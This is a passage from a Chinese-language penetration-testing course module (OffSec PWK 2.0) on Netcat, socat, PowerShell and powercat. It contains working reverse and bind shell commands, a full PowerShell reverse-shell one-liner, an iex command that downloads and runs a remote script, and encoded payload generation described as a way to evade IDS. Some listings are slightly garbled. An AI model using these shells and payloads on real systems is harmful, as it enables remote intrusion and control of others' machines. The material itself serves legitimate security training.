在此场景中，我们可以利用 Netcat 的另一个有用功能；即将命令 Shell 发送到在特定端口上监听的主机的能力。在这种情况下，虽然 Alice 无法在她的计算机本地将端口绑定到 `/bin/bash` 并期望 Bob 连接，但她可以将她的命令提示符的控制权发送给 Bob 的机器。这被称为*反向 Shell*。为了让其正常工作，Bob 将首先设置 Netcat 以监听传入的 Shell。我们将在示例中使用端口 4444：

```text
C:\Users\offsec> nc -nlvp 4444
listening on [any] 4444 ...
```

*清单 88 - 使用 nc 设置监听器以接收反向 Shell*

现在，Alice 可以从她的 Linux 机器向 Bob 发送反向 Shell。再次，我们使用 `-e` 选项使应用程序可供远程使用，在本例中恰好是 `/bin/bash`，即 Linux Shell：

```bash
kali@kali:~$ ip address show eth0 | grep inet
     inet 10.11.0.4/16 brd 10.11.255.255    scope global dynamic eth0
kali@kali:~$ nc -nv 10.11.0.22 4444 -e /bin/bash
(UNKNOWN) [10.11.0.22] 4444 (?) open
```

*清单 89 - 使用 nc 发送反向 Shell*

一旦建立连接，Alice 的 Netcat 就会将 `/bin/bash` 的输入、输出和错误数据流重定向到 Bob 机器的 4444 端口，Bob 可以与该 Shell 交互：

```text
C:\Users\offsec>nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.11.0.22] from <UNKNOWN> [10.11.0.4] 43482
ip address show eth0 | grep inet
     inet 10.11.0.4/16 brd 10.11.255.255    scope global dynamic eth0
```

*清单 90 - 使用 nc 接收反向 Shell*


花些时间考虑绑定 Shell 和反向 Shell 之间的区别，以及这些区别如何从组织安全角度应用于各种防火墙配置。重要的是要认识到，传出流量可能和传入流量一样有害。下图描绘了反向 Shell 场景，其中 Bob 在 Alice 的 Linux 机器上获得了远程 Shell 访问权限，并穿越了公司防火墙：



> 主机防火墙阻止对我们宝贵的绑定 Shell 的访问并不少见。这有时可能会令人极度沮丧，尤其是在压力之下且面临时间限制时。如有疑问，我们使用反向 Shell，因为它们通常更容易排查故障。

### 4.1.4.3 练习

（这些练习无需报告）

1. 在你的 Kali 机器和 Windows 系统之间实现简单的聊天。
2. 使用 Netcat 创建：
   - a. 从 Kali 到 Windows 的反向 Shell。
   - b. 从 Windows 到 Kali 的反向 Shell。
   - c. 在 Kali 上的绑定 Shell。使用你的 Windows 系统连接它。
   - d. 在 Windows 上的绑定 Shell。使用你的 Kali 机器连接它。
3. 将文件从你的 Kali 机器传输到 Windows，反之亦然。
4. 在你的 Windows 系统上启用防火墙后再次执行这些练习。如有必要调整练习以绕过防火墙保护，并理解哪些部分的练习将无法成功完成。


### 4.2 Socat

`Socat`[84] 是一个命令行工具，用于建立两个双向字节流并在它们之间传输数据。对于渗透测试而言，它类似于 `Netcat`，但拥有额外的实用功能。

虽然 `socat` 可以做很多事情，但我们仅涵盖其中几项以说明其用法。让我们开始探索 `socat`，并看看它与 `Netcat` 有何不同。

#### 4.2.1 Netcat 与 Socat

首先，让我们使用 `Netcat` 和 `socat` 连接到远程服务器的 80 端口：

```
kali@kali:~$ nc <remote server's ip address> 80

kali@kali:~$ socat - TCP4:<remote server's ip address>:80
Listing 91 - Using socat to connect to a remote server on port 80, and comparing its syntax with nc's
```

注意语法相似，但 `socat` 需要 `-` 来在 STDIO 和远程主机之间传输数据（允许我们通过键盘与 shell 交互），以及协议（`TCP4`）。协议、选项和端口号由冒号分隔。

由于绑定 1024 以下端口的监听器需要 root 权限，我们在 443 端口启动监听器时需要使用 `sudo`：

```
kali@kali:~$ sudo nc -lvp localhost 443

kali@kali:~$ sudo socat TCP4-LISTEN:443 STDOUT
Listing 92 - Using socat to create a listener, and comparing its syntax with nc's
```

注意需要添加监听器的协议（`TCP4-LISTEN`）和 `STDOUT` 参数，后者将标准输出重定向。

#### 4.2.2 Socat 文件传输

接下来，我们将尝试文件传输。继续之前关于 Alice 和 Bob 的虚构角色，假设 Alice 需要向 Bob 发送一个名为 `secret_passwords.txt` 的文件。提醒一下，Alice 的主机运行 Linux，而 Bob 的主机运行 Windows。让我们看看实际操作。

在 Alice 端，我们将在 443 端口共享文件。在此示例中，`TCP4-LISTEN` 选项指定了一个 IPv4 监听器，`fork` 在连接到监听器时创建子进程，从而允许多个连接，`file:` 指定要传输的文件名：

```
kali@kali:~$ sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
Listing 93 - Using socat to transfer a file
```

在 Bob 端，我们将连接到 Alice 的计算机并检索文件。在此示例中，`TCP4` 选项指定 IPv4，随后是 Alice 的 IP 地址（10.11.0.4）和监听端口号（443），`file:` 指定在 Bob 的计算机上保存文件的本地文件名，`create` 指定将创建一个新文件：

```
C:\Users\offsec> socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
C:\Users\offsec> type received_secret_passwords.txt
"try harder!!!"
```

Listing 94 - Using socat to receive a file

#### 4.2.3 Socat 反弹 Shell

让我们看一下使用 `socat` 的反弹 shell。首先，Bob 将在 443 端口启动一个监听器。为此，他将提供 `-d -d` 选项以增加详细程度（显示致命、错误、警告和通知消息），`TCP4-LISTEN:443` 在 443 端口创建一个 IPv4 监听器，`STDOUT` 将标准输出（STDOUT）连接到 TCP 套接字。

```
C:\Users\offsec> socat -d -d TCP4-LISTEN:443 STDOUT
... socat[4388] N Listening on AF=2 0.0.0.0:443
```

Listing 95 - Using socat to create a listener

接下来，Alice 将使用 `socat` 的 `EXEC` 选项（类似于 `Ncat` 的 `-e` 选项），该选项将在建立远程连接后执行指定的程序。在这种情况下，Alice 将向 10.11.0.22:443 上 Bob 的监听套接字发送 `/bin/bash` 反弹 shell（使用 `EXEC:/bin/bash`）：

```
kali@kali:~$ socat TCP4:10.11.0.22:443 EXEC:/bin/bash
```

Listing 96 - Using socat to send a reverse shell

连接建立后，Bob 可以从他的 `socat` 会话中输入命令，这些命令将在 Alice 的机器上执行。

```
... socat[4388] N accepting connection from AF=2 10.11.0.4:54720 on 10.11.0.22:443
... socat[4388] N Using stdout for reading and writing
... socat[4388] N starting data transfer loop with FDs [4,4] and [1,1]
whoami
kali
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)
```

Listing 97 - socat output from a connected reverse shell

这是一个良好的开端，我们涵盖了一些重要主题，但到目前为止，我们的 `socat` 网络活动都是明文的。让我们看看 `socat` 加密的基础知识。

#### 4.2.4 Socat 加密绑定 Shell

要为绑定 shell 添加加密，我们将依赖 Secure Socket Layer[85] 证书。这种级别的加密将有助于逃避入侵检测系统（IDS）[86]，并有助于隐藏我们要传输的敏感数据。

继续 Alice 和 Bob 的示例，我们将使用 `openssl` 应用程序使用以下选项创建自签名证书：

- `req`: 发起新的证书签名请求
- `--newkey`: 生成一个新的私钥
- `rsa2048`: 使用 2,048 位密钥长度的 RSA 加密
- `--nodes`: 存储无密码保护的私钥
- `--keyout`: 将密钥保存到文件
- `-x509`: 输出自签名证书而不是证书请求
- `--days`: 设置有效期天数
- `--out`: 将证书保存到文件


生成密钥后，我们将使用 `cat` 命令将证书及其私钥合并到一个文件中，最终用于加密我们的绑定 shell。

我们现在将在 Alice 的机器上详细演示这个过程：


```
kali@kali:~$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
Generating a 2048 bit RSA private key
....................................................+++
......................................................+++
writing new private key to 'bind_shell.key'
-----
You are about to be asked to enter information that will be incorporated into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value.
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:Georgia
Locality Name (eg, city) []:Atlanta
Organization Name (eg, company) [Internet Widgets Pty Ltd]:Offsec
Organizational Unit Name (eg, section) []:Try Harder Department
Common Name (eg, server FQDN or YOUR name) []:
Email Address []:
kali@kali:~$ cat bind_shell.key bind_shell.crt > bind_shell.pem
```

既然密钥和证书已经生成，我们首先需要将它们转换为 `socat` 可以接受的格式。为此，在创建加密的 `socat` 监听器之前，我们将 `bind_shell.key` 和 `bind_shell.crt` 文件合并为单个 `.pem` 文件。

我们将使用 `OPENSSL-LISTEN` 选项在 443 端口创建监听器，`cert=bind_shell.pem` 指定我们的证书文件，`verify=0` 禁用 SSL 验证，`fork` 在连接到监听器时生成子进程。

```
kali@kali:~$ sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

现在，我们可以将 Bob 的计算机连接到 Alice 的绑定 shell。

我们将使用 `-` 在 STDIO[87] 和远程主机之间传输数据，`OPENSSL` 建立到 10.11.0.4:443 上 Alice 监听器的远程 SSL 连接，`verify=0` 禁用 SSL 证书验证：

```text
C:\Users\offsec> socat - OPENSSL:10.11.0.4:443,verify=0
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)
whoami
kali
```

太棒了！我们的绑定 shell 成功创建，并且我们能够将命令传递到 Alice 的机器。

花点时间自行探索 `socat`。这是众多在渗透测试期间将极为有益的工具之一。

#### 4.2.4.1 练习

1. 使用 `socat` 将 `powercat.ps1` 从你的 Kali 机器传输到你的 Windows 系统。保留该文件供下一节使用。
2. 使用 `socat` 从你的 Windows 系统到你的 Kali 机器创建一个加密的反弹 shell。
3. 在你的 Windows 系统上创建一个加密的绑定 shell。尝试从 Kali 未加密地连接到它。它仍然有效吗？
4. 在你的 Windows 系统上创建一个未加密的 `socat` 绑定 shell。使用 Netcat 连接到该 shell。它有效吗？

**注意：** 如果 `cmd.exe` 没有执行，请根据收到的错误研究可能需要传递给 `EXEC` 选项的其他参数。

### 4.3 PowerShell 和 Powercat

Windows PowerShell[88] 是一个基于任务的命令行 shell 和脚本语言。它专为系统管理员和高级用户设计，用于快速自动化管理多个操作系统（Linux、macOS、Unix 和 Windows）以及运行在其上的应用程序相关进程。

不用说，PowerShell 是渗透测试的强大工具，可以安装（或默认安装）在各种版本的 Windows 上。它在 Windows Server 2008 R2 和 Windows 7 开始的现代 Windows 平台上默认安装。Windows PowerShell 5.0 运行在以下 Windows 版本上：

- Windows Server 2016，默认安装

[84] (dest-unreach, 2019), http://www.dest-unreach.org/socat/doc/socat.html

[85] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Transport_Layer_Security

[86] (Wikipedia, 2019), https://en.wikipedia.org/wiki/Intrusion_detection_system

Windows PowerShell 5.0 运行在以下版本的 Windows 上：

- Windows Server 2012 R2/Windows Server 2012/Windows Server 2008 R2（带 Service Pack 1）/Windows 8.1/Windows 7（带 Service Pack 1）（安装 Windows Management Framework 5.0 以运行）

Windows PowerShell 4.0 运行在以下版本的 Windows 上：

- Windows 8.1/Windows Server 2012 R2，默认已安装
- Windows 7（带 Service Pack 1）/Windows Server 2008 R2（带 Service Pack 1）（安装 Windows Management Framework 4.0 以运行）

Windows PowerShell 3.0 运行在以下版本的 Windows 上：

- Windows 8/Windows Server 2012，默认已安装
- Windows 7（带 Service Pack 1）/Windows Server 2008 R2（带 Service Pack 1/2）（安装 Windows Management Framework 3.0 以运行）

PowerShell 包含一个内置的集成开发环境（IDE）⁸⁹，称为 Windows PowerShell 集成脚本环境（ISE）。⁹⁰ ISE 是 Windows PowerShell 的一个宿主应用程序，它使我们能够在单一的基于 Windows 的图形用户界面中运行命令、编写、测试和调试脚本。该界面提供多行编辑、选项卡自动补全、语法着色、选择性执行、上下文敏感帮助、支持从右到左的语言等功能：



图 10：PowerShell ISE

PowerShell 维护了一项执行策略，用于确定哪些类型的 PowerShell 脚本（如果有）可以在系统上运行。默认策略是"Restricted"（受限），这意味着系统实际上既不加载 PowerShell 配置文件，也不运行 PowerShell 脚本。为了本模块的目的，我们需要在 Windows 客户端机器上设置"Unrestricted"（无限制）执行策略。为此，我们点击 Windows 开始按钮，右键点击 Windows PowerShell 应用程序并选择以管理员身份运行。当出现用户账户控制提示时，选择“是”并输入 `Set-ExecutionPolicy Unrestricted`。


```powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\WINDOWS\system32> Set-ExecutionPolicy Unrestricted

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing
the execution policy might expose you to the security risks described in the
about_Execution_Policies help topic at https://go.microsoft.com/fwlink/?LinkID=135170.
Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N")
: y

PS C:\WINDOWS\system32> Get-ExecutionPolicy
Unrestricted
```

### 列表 101 - 设置 PowerShell 执行策略

PowerShell 既响应迅速又功能强大，使我们在不安装额外工具的情况下就能在目标上执行多项任务。让我们进一步探索 PowerShell，以展示它在渗透测试中可能发挥的作用。

### 4.3.1 PowerShell 文件传输

继续沿着 Alice 和 Bob 的例子，我们将使用 PowerShell 将文件从 Bob 传输到 Alice。

由于 PowerShell 的功能和灵活性，这不像使用 Netcat 甚至 socat 那样直观，因此这些最初的命令乍一看可能会让人有些困惑。我们将执行命令，然后分解其组成部分：

```powershell
C:\Users\offsec> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"

C:\Users\offsec\Desktop> wget.exe -V
GNU Wget 1.9.1

Copyright (C) 2003 Free Software Foundation, Inc.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

Originally written by Hrvoje Niksic <hniksic@gac.edu>.
```

*列表 102 - 使用 PowerShell 下载文件*

我们可以看到命令已执行，文件已传输，并且运行没有发生意外。让我们分析一下实现这一过程的 PowerShell 命令。

首先，我们使用了 `-c` 选项。这将执行提供的命令（用双引号包裹），就好像它在 PowerShell 提示符下输入一样。

我们要执行的命令包含几个部分。首先，我们使用了 `new-object` cmdlet，它允许我们实例化 .Net Framework 或 COM 对象。在这种情况下，我们创建了一个 `WebClient` 类的实例，该类在 `System.Net` 命名空间中定义和实现。`WebClient` 类用于访问由 URI 标识的资源，并暴露了一个名为 `DownloadFile` 的公共方法，该方法需要两个关键参数：源位置（如前所述的 URI 形式）和目标位置（即检索到的数据将存储的位置）。

这种语法可能看起来令人困惑，但实际上相当直接。参考 Microsoft 的 `System.Net` 参考⁹¹，查看该命名空间中所有已实现类的列表。然后，继续查看 `WebClient` 类，最后查看 `DownloadFile` 方法，以直观地了解我们在示例中使用的类和方法的结构。

随着 `wget.exe` 可执行文件下载到 Bob 的计算机上，他可以将其作为另一个工具来下载额外的文件，或者继续使用 PowerShell。

### 4.3.2 PowerShell 反向 Shell

在本节中，我们将利用 PowerShell 单行命令⁹² 来执行 shell，从反向 shell 开始。

首先，我们将在 Alice 的计算机上设置一个简单的 Netcat 监听器：

```bash
kali@kali:~$ sudo nc -l -n -v -p 443
listening on [any] 443 ...
```

*列表 103 - 使用 nc 设置监听器以接收反向 shell*

接下来，我们将发送一个 PowerShell 反向 shell 从 Bob 的计算机发出。再次说明，这在语法上不像 Netcat 或 socat 那样整洁，但由于 PowerShell 在大多数现代 Windows 机器上是原生的，因此探索这个 PowerShell 等效程序非常重要。让我们先看看代码，然后将其分解：

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4', 443);
$stream = $client.GetStream();
$bytes = 0..65535|%{$0};
while($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + ';';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush();
}
$client.Close()
```

*列表 104 - PowerShell 反向 shell*

与之前使用的工具相比，这可能看起来极其复杂。然而，PowerShell 功能强大且灵活；它不是一个单一功能的工具。正因为如此，我们必须使用复杂的语法来调用复杂的功能。

该代码由多个用分号隔开的命令组成。首先，我们看到一个 `client` 变量，它被分配了目标 IP 地址，一个 `stream` 变量，一个名为 `bytes` 的字节数组，以及一个后跟关闭客户端连接调用的 `while` 循环。在 while 循环内，我们可以看到几行负责向网络流读写数据的代码。请注意，`iex`⁹³（`Invoke-Expression`）cmdlet 是此代码块的关键部分，因为它将收到的任何字符串作为命令运行，然后将命令的结果重定向并通过数据流发送回来。

可以将此代码整合成一个承认较长的单行命令，以便在命令提示符下执行：

```powershell
C:\Users\offsec> powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();$bytes = 0..65535|%{$0};while($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{$data = (New-Object –TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $1);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + ';';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length)$stream.Flush();}$client.Close()"
```


# 列表 105 - 使用 PowerShell 发送反向 shell

这个单行命令乍一看可能非常繁琐，但无需记住它；在实时渗透测试中，我们可能会复制粘贴此类命令（替换 IP 和端口号）。

最后，我们通过 Ncat 接收反向 shell：

```bash
kali@kali:~$ sudo nc -l -r -v -p 443
listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 63515
PS C:\Users\offsec>
```

# 列表 106 - 使用 nc 接收反向 shell

简而言之，只需替换 `System.Net.Sockets.TCPClient` 调用中的 IP 地址和端口号，我们就能轻松重用此 PowerShell 反向 shell 命令。

## 4.3.3 PowerShell 绑定 Shell

在处理绑定 shell 时，过程是相反的。我们首先在 Bob 的计算机上通过 PowerShell 创建绑定 shell，然后使用 Ncat 从 Alice 的计算机连接到它。

在下面的代码片段中，我们将再次使用 `-c` 选项将命令传递给 `powershell`。与反向 shell 一样，这个复杂的命令可以分解为几个命令。除了 `client`、`stream` 和 `byte` 变量外，我们还有一个新的 `listener` 变量，它使用 `System.Net.Sockets.TcpListener`⁹⁴ 类。该类需要两个参数：首先是监听的地址，其次是端口。通过提供 `0.0.0.0` 作为本地地址，我们的绑定 shell 将在系统上的所有 IP 地址上可用。再次，我们使用 `iex` cmdlet 来执行我们的命令：

```powershell
C:\Users\offsec> powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();$bytes = 0..65535|%{$0};while($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{$data = (New-Object –TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $1);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + ';';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length)$stream.Flush();}$client.Close()"
```

---

⁹³ (Microsoft, 2019), https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-6

⁹⁴ (Microsoft, 2019), https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcplistener?view=netframework-4.7.2

PWK 2.0

Copyright © Offensive Security Ltd. All rights reserved.

89

S ' + (pwd).Path + '> ';

$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);

$stream.Write($sendbyte,0,$sendbyte.Length);

$stream.Flush();

$client.Close();

$listener.Stop()
```


在绑定 Shell 监听建立后，我们可以像使用任何其他 Shell 一样，使用 Netcat 从 Alice 的机器连接到它。我们为 Netcat 包含 `-w` 选项，因为我们的绑定 Shell 在首次连接时并不总是向我们显示命令提示符：

```
kali@kali:~$ nc -nv 10.11.0.22 443

(UNKNOWN) [10.11.0.22] 443 (https) open

ipconfig

Windows IP Configuration

Ethernet adapter Local Area Connection:

    Connection-specific DNS Suffix . . :

    IPv4 Address. . . . . . . . . . . : 10.11.0.22

    Subnet Mask . . . . . . . . . . . . . : 255.255.255.0

    Default Gateway . . . . . . . . . . : 10.11.0.1

C:\Users>

offsec>
```


PowerShell 功能极其强大，我们甚至还没有触及它功能的皮毛。由于微软日益增加使用 PowerShell 进行基于 Windows 的管理和自动化，知道如何正确使用 PowerShell 来实现我们的目标至关重要。更多类和方法，以及在线提供的各种 PowerShell 培训和演讲，请参阅 Microsoft PowerShell 文档<sup>95</sup> 和 Microsoft System.Net 参考。

## 4.3.4 Powercat

`Powercat`⁹⁶ 本质上是 `besimorhino`⁹⁷ 编写的 Netcat 的 PowerShell 版本。这是一个我们可以下载到 Windows 主机上的脚本，利用 PowerShell 的优势，简化绑定/反向 Shell 的创建。

> `Powercat` 可以通过 `apt install powercat` 安装在 Kali 中，这会将脚本放置在 `/usr/share/windows-resources/powercat`

我们可以跳过第一步，即从我们的 Kali Linux 机器将脚本传输到 Windows 主机，因为我们已经熟悉文件传输。

在目标主机上有该脚本后，我们首先使用一种称为 `Dot-sourcing`⁹⁸ 的 PowerShell 功能来加载 `powercat.ps1` 脚本。这将使脚本中声明的所有变量和函数在当前 PowerShell 作用域中可用。通过这种方式，我们可以在 PowerShell 中直接使用 `powercat` 函数，而不是每次都执行脚本。

```
PS C:\Users\Offsec> . \.\powercat.ps1
```
*列表 109 - 使用点源加载本地 PowerShell 脚本*

如果目标机器连接到互联网，我们可以通过再次使用便捷的 `iex` cmdlet 对远程脚本执行相同的操作，如下所示：

```
PS C:\Users\Offsec> iex (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
*列表 110 - 使用 iex 加载远程 PowerShell 脚本*

值得注意的是，以这种方式加载的脚本仅在当前的 PowerShell 实例中可用，每次重启 PowerShell 时都需要重新加载。

现在我们的脚本已加载，我们可以按如下方式执行 `powercat`：

```
PS C:\Users\Offsec> powercat

You must select either client mode (-c) or listen mode (-l).
```
*列表 111 - 在 PowerShell 中直接执行 powercat 函数*

我们可以通过查看帮助菜单快速熟悉 Powercat：

```
PS C:\Users\Offsec> powercat -h

powercat - Netcat, The PowerShell Version
```


Github Repository: https://github.com/besimorhino/powercat

该脚本尝试在 powershell 脚本中实现 netcat 的功能。它还包含一些额外功能，例如内置中继、执行 powershell，以及 dnscat2 客户端。

Usage: `powercat [-c or -l] [-p port] [options]`

- `-c <ip>`: 客户端模式。提供您希望连接的系统 IP。如果使用 `-dns`，请指定发送查询的 DNS 服务器。
- `-l`: 监听模式。在 `-p` 指定的端口上启动监听器。
- `-p <port>`: 端口。要连接的端口，或要监听的端口。
- `-e <proc>`: 执行。指定要启动的进程名称。
- `-i <input>`: 输入。在建立连接后立即提供要沿管道发送的数据。用于传输文件。您可以提供文件路径、字节数组对象或字符串。您也可以将这些内容中的任何一个管道传入 `powercat`，例如 `'aaaaa' | powercat -c 10.1.1.1 -p 80`
- `-g`: 生成载荷。返回一个字符串形式的脚本，该脚本将使用您指定的选项执行 `powercat`。`-i`、`-d` 和 `-rep` 将被整合其中。
- `-ge`: 生成编码载荷。与 `-g` 相同，但返回一个字符串，可以通过以下方式执行：`powershell -E <编码字符串>`

`-h` Print this help message.

...

*列表 112 - Powercat 帮助菜单*

让我们回顾一下如何使用 `powercat` 进行文件传输以及绑定和反向 Shell，就像我们之前使用其他工具所做的那样。

### 4.3.5 Powercat 文件传输

虽然我们可以使用任何之前讨论过的工具将 Powercat 传输到我们的目标，但让我们看看如何使用 `powercat` 将自身（`powercat.ps1`）从 Bob 传输到 Alice，以此作为演示 `powercat` 文件传输的一种方式。

首先，我们在 Alice 的计算机上运行一个 Netcat 监听器：

```
kali@kali:~$ sudo nc -lvp 443 > receiving_powercat.ps1

listening on [any] 443 ...

connect  to [10.11.0.4]  from (UNKNOWN) [10.11.0.22] 63661
```
*列表 113 - 使用 nc 为 powercat 文件传输设置监听器*

接下来，我们将在 Bob 的计算机上调用 `powercat`。`-c` 选项指定客户端模式并设置监听 IP 地址，`-p` 指定要连接的端口号，`-i` 指示将被远程传输的本地文件：

```
PS C:\Users\Offsec> powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```
*列表 114 - 使用 powercat 发送文件*

最后，Alice 将终止 Netcat 进程并检查文件是否已接收：

```
^C

kali@kali:~$ ls receiving_powercat.ps1

receiving_powercat.ps1
```
*列表 115 - 验证通过 powercat 发送的文件接收*

### 4.3.6 Powercat 反向 Shell

反向 Shell 的过程与我们之前看到的类似。我们将在 Alice 的计算机上启动一个 Netcat 监听器，然后 Bob 将使用 `powercat` 发送反向 Shell。

我们从 Alice 机器上的 Netcat 监听器开始：

```
kali@kali:~$ sudo nc -lvp 443

listening on [any] 443 ...
```
*列表 116 - 使用 nc 设置监听器以接收来自 powercat 的反向 Shell*

接下来，Bob 将使用 `powercat` 发送反向 Shell。在此示例中，`-e` 选项指定在连接到监听端口后要执行的应用程序（`cmd.exe`）：

```
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe
```
*列表 117 - 使用 powercat 发送反向 Shell*

最后，Alice 的 Netcat 监听器将接收 Shell：

```
connect  to [10.11.0.4]  from (UNKNOWN) [10.11.0.22] 63699

Microsoft Windows [Version 10.0.17134.590]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\offsec>
```
*列表 118 - 接收 powercat 反向 Shell*

### 4.3.7 Powercat 绑定 Shell

相比之下，`powercat` 绑定 Shell 是在 Bob 的一侧通过 `powercat` 监听器启动的。我们将使用 `-l` 选项创建监听器，`-p` 指定监听端口号，`-e` 指定连接后要执行的应用程序（`cmd.exe`）：

```
PS C:\Users\offsec> powercat -l -p 443 -e cmd.exe
```
*列表 119 - 使用 powercat 设置绑定 Shell*

接下来，Alice 将在 Bob 的计算机上创建连接到绑定 Shell 的 Netcat 连接：

```
kali@kali:~$ nc 10.11.0.22 443

Microsoft Windows [Version 10.0.17134.590]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\offsec>
```
*列表 120 - 使用 nc 连接到由 powercat 创建的绑定 Shell*

### 4.3.8 Powercat 独立载荷

`Powercat` 还可以生成独立载荷。[^99] 在 `powercat` 的上下文中，载荷是一组 `powershell` 指令，以及 `powercat` 脚本本身仅包含用户请求的功能的部分。让我们在下一个示例中尝试使用载荷。

在 Alice 机器上启动监听器后，我们在之前的 `powercat` 命令中添加 `-g` 选项并创建一个独立的反向 Shell 载荷，并将输出重定向到文件。这将生成一个 `powershell` 脚本，Bob 可以在他的机器上执行：

```
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1

PS C:\Users\offsec> ./reverseshell.ps1
```


*列表 121 - 创建并执行独立载荷*

值得注意的是，像这样的独立载荷可能很容易被 IDS 检测到。具体来说，生成的脚本相当大，大约有 300 行代码。此外，它还包含一些硬编码字符串，这些字符串可以很容易地用于创建恶意活动签名。虽然任何特定签名的识别超出了本模块的范围，但足以说，像这样的明文恶意代码很可能成功率较低，并很可能被防御性软件解决方案捕获。

我们可以尝试通过利用 PowerShell 执行 Base64 编码命令的能力来克服这个问题。要生成一个独立的编码载荷，我们使用 `-ge` 选项，并再次将输出重定向到文件：

---
<sup>95</sup> (Microsoft, 2019), https://docs.microsoft.com/en-us/powershell/
<sup>96</sup> (besimorhino/powercat, 2017), https://github.com/besimorhino/powercat/blob/master/powercat.ps1
<sup>97</sup> (besimorhino, 2018), https://github.com/besimorhino
<sup>98</sup> (SS64, 2019), https://ss64.com/ps/source.html
<sup>99</sup> (Wikipedia, 2019), https://en.wikipedia.org/wiki/Payload_(computing)

## 4.3.8.1 练习

- 1. 使用 `PowerShell` 和 `powercat` 从你的 Windows 系统向你的 Kali 机器创建一个反向 Shell。
- 2. 使用 `PowerShell` 和 `powercat` 在你的 Windows 系统上创建一个绑定 Shell，并从你的 Kali 机器连接到它。你还能使用 `powercat` 在本地连接到它吗？
- 3. 使用 `powercat` 生成一个编码后的有效载荷（payload），然后通过 `powershell` 执行它。让反向 Shell 发送到你的 Kali 机器，同时在你的 Windows 系统上创建一个编码后的绑定 Shell，并使用你的 Kali 机器连接到它。

### 4.4 Wireshark

一名合格的安全渗透测试人员应精通网络基础。网络嗅探器（如行业标准工具 Wireshark<sup>100</sup>）是学习网络协议、分析网络流量以及调试网络服务的必备工具。在本节中，我们将讨论一些 Wireshark 的基础知识。

#### 4.4.1 Wireshark 基础

Wireshark 使用 `Libpcap` <sup>101</sup>（在 Linux 上）或 `Winpcap` <sup>102</sup>（在 Windows 上）库来捕获网络数据包。

在使用嗅探器分析网络流量时，收集数据中的大量“噪声”很容易让人眼花缭乱。为了便于分析，我们可以应用捕获过滤器（capture filters）<sup>103</sup>和显示过滤器（display filters）<sup>104</sup>。如果在 Wireshark 会话期间应用捕获过滤器，则不符合过滤器条件的数据包将被丢弃，剩余的数据将被传递到*捕获引擎*。捕获引擎随后解析传入的数据包，对其进行分析，最后在显示输出之前应用任何额外的*显示过滤器*。

以下图表展示了这一过程：


*图 11：从线路到 Wireshark*

